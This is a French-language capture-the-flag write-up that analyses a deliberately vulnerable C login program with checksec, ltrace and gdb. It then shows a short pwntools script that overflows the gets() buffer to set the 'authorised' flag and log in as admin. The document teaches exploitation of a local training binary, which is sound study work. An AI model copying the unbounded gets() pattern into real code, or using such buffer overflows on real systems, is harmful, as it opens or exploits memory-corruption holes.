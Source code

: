 Ici on a un `login.c` qu'on va compiler


```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    char password[6];
    int authorised = 0;

    printf("Enter admin password: \n");
    gets(password);

    if(strcmp(password, "pass") == 0)
    {
        printf("Correct Password!\n");
        authorised = 1;
    }
    else
    {
        printf("Incorrect Password!\n");
    }

    if(authorised)
    {
        printf("Successfully logged in as Admin (authorised=%d) :)\n", authorised);
    }else{
		printf("Failed to log in as Admin (authorised=%d) :(\n", authorised);
	}

    return 0;
}

```

### Analysons
Ce program initie une variable char avec un maximum de `6` caracteres.
Ensuite initie une variable `authorized` a 	`0`. Puis demande d'entrer un mot de passe. si tu entre `pass` c'est correct et tu sera logged en tant que admin. sino non tu seras pas logged.

```sh
# checksec --file=login 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.11/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.11.1 --> 4.12.0).
    Update with: $ pip install -U pwntools
[*] '/home/blo/CTFs/Jeopardy/Pwn/login'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

Je vais lancer `ltrace` sur ce programme.

```sh
─# ltrace ./login 
__libc_start_main(0x80490ad, 1, 0xffa6efd4, 0 <unfinished ...>
puts("Enter admin password: "Enter admin password: 
)                   = 23
gets(0xffa6eef6, 0, 19, 0x80491adaaa
)               = 0xffa6eef6
strcmp("aaa", "pass")                            = -1
puts("Incorrect Password!"Incorrect Password!
)                      = 20
printf("Failed to log in as Admin (autho"..., 0Failed to log in as Admin (authorised=0) :(
) = 44
+++ exited (status 0) +++
```
 Dans cet output, lorsque je rentre un mot de passe quelconque. je recois une comparaison de mon string et le `pass` qui est le vrai mot de passe

- *GDB-gef*

```sh
gef➤  file login
Reading symbols from login...
(No debugging symbols found in login)
gef➤  info functions 
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  strcmp@plt
0x08049040  __libc_start_main@plt
0x08049050  printf@plt
0x08049060  gets@plt
0x08049070  puts@plt
0x08049080  _start
0x080490ad  __wrap_main
0x080490c0  _dl_relocate_static_pie
0x080490d0  __x86.get_pc_thunk.bx
0x080490e0  deregister_tm_clones
0x08049120  register_tm_clones
0x08049160  __do_global_dtors_aux
0x08049190  frame_dummy
0x08049196  main
0x08049264  _fini
gef➤  
```

Ok on peux dissasemble la functionns `main`

```sh

0x080491e9 <+83>:    call   0x8049030 <strcmp@plt>
   0x080491ee <+88>:    add    esp,0x10
   0x080491f1 <+91>:    test   eax,eax
   0x080491f3 <+93>:    jne    0x8049210 <main+122>
   0x080491f5 <+95>:    sub    esp,0xc
   0x080491f8 <+98>:    lea    eax,[ebx-0x1fd0]
   0x080491fe <+104>:   push   eax
   0x080491ff <+105>:   call   0x8049070 <puts@plt>
   0x08049204 <+110>:   add    esp,0x10
   0x08049207 <+113>:   mov    DWORD PTR [ebp-0xc],0x1
   0x0804920e <+120>:   jmp    0x8049222 <main+140>
   0x08049210 <+122>:   sub    esp,0xc
   0x08049213 <+125>:   lea    eax,[ebx-0x1fbe]
   0x08049219 <+131>:   push   eax
   0x0804921a <+132>:   call   0x8049070 <puts@plt>
   0x0804921f <+137>:   add    esp,0x10
   0x08049222 <+140>:   cmp    DWORD PTR [ebp-0xc],0x0
   0x08049226 <+144>:   je     0x804923f <main+169>
   0x08049228 <+146>:   sub    esp,0x8
   0x0804922b <+149>:   push   DWORD PTR [ebp-0xc]
   0x0804922e <+152>:   lea    eax,[ebx-0x1fa8]
   0x08049234 <+158>:   push   eax
   0x08049235 <+159>:   call   0x8049050 <printf@plt>
   0x0804923a <+164>:   add    esp,0x10
   0x0804923d <+167>:   jmp    0x8049254 <main+190>


```

c'est comme le code deja vue sur ghidra alors.
j'appercois ici une comparaison `0x08049222 <+140>:   cmp    DWORD PTR [ebp-0xc],0x0`

Je vais y mettre un breakpoint ici et lancer le programme

```sh
gef➤  b *main+140
Breakpoint 1 at 0x8049222
gef➤  run
Starting program: /home/blo/CTFs/Jeopardy/Pwn/login 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter admin password: 
aa
Incorrect Password!

Breakpoint 1, 0x08049222 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049219 <main+131>       push   eax
    0x804921a <main+132>       call   0x8049070 <puts@plt>
    0x804921f <main+137>       add    esp, 0x10
 →  0x8049222 <main+140>       cmp    DWORD PTR [ebp-0xc], 0x0
    0x8049226 <main+144>       je     0x804923f <main+169>
    0x8049228 <main+146>       sub    esp, 0x8
    0x804922b <main+149>       push   DWORD PTR [ebp-0xc]
    0x804922e <main+152>       lea    eax, [ebx-0x1fa8]
    0x8049234 <main+158>       push   eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "login", stopped 0x8049222 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────

```

Dans cet output on voit que le `cmp` compare la variable a 0x0 qui est `0`. si c'est pas le cas de continuer le code
affichons la valeur du variable du variable
```sh
gef➤  x $ebp - 0xc
0xffffd29c:     0x00000000
```

Tous des 0000, alors et si je la modifie avec `set`

```sh
gef➤  set *0xffffd29c = 1
gef➤  x $ebp - 0xc
0xffffd29c:     0x00000001
gef➤  
```
Ici on constate bien un changement des 0 a 1, et si nous continuons on aura alors une autorisation dans le script

```c
gef➤  c
Continuing.
Successfully logged in as Admin (authorised=1) :)
[Inferior 1 (process 207821) exited normally]
gef➤ 
```

Ici il faut savoir que je viens de modifier une variable local du program. dans ce ligne 

```c
    char password[6];
    int authorised = 0;
```
On sait qu'ici si la valeur de authorized est egal a 1
```c
        printf("Correct Password!\n");
        authorised = 1;
```

Now i will create a pwntools script to do that automatically

```
#!/usr/bin/python3


from pwn import *

p = process("./login")
p.sendlineafter(b'Enter admin password:', b'AAAAAAAAAAA')
var2 = p.recvall().decode()
print(var2)


p.close()

```

et quand je l'execute

```sh
└─# python3 exp_login.py
[+] Starting local process './login': pid 223294
[+] Receiving all data: Done (81B)
[*] Process './login' stopped with exit code -11 (SIGSEGV) (pid 223294)
 
Incorrect Password!
Successfully logged in as Admin (authorised=1094795585) :)
```